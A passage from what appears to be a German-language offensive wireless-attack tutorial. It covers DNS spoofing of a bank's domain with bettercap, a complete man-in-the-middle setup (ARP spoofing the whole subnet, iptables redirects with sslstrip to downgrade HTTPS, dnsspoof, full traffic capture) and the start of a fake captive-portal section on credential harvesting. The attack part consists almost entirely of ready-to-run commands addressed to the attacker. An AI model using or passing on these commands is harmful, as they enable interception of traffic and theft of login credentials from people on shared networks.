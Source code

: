 ```bash
bettercap -iface wlan0

# DNS Spoofer konfigurieren
set dns.spoof.domains www.bank.com,*.bank.com
set dns.spoof.address 192.168.1.100
dns.spoof on

# Alle bank.com Anfragen gehen zu 192.168.1.100
```

### Kombinierter MITM Attack

**Komplett Setup:**

```bash
# 1. IP Forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# 2. ARP Spoofing (Evil Twin oder echtes Netzwerk)
arpspoof -i wlan0 -t 192.168.1.0/24 192.168.1.1

# 3. SSL Stripping
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
sslstrip -l 8080 -w /tmp/sslstrip.log &

# 4. DNS Spoofing
dnsspoof -i wlan0 -f /tmp/dns_hosts &

# 5. Traffic Capture
tcpdump -i wlan0 -w /tmp/mitm_full.pcap &

# Jetzt:
# - Du bist Gateway für alle
# - HTTPS → HTTP
# - DNS zu Fake-Sites
# - Alles geloggt
```

---

## 5. Credential Harvesting

### Captive Portal (Fake Login)

**Szenario:**
- Evil Twin mit offener Verbindung
- Clients verbinden sich
- Zeige Fake-Login-Seite
- Stehle Credentials

#### Setup: Apache Webserver
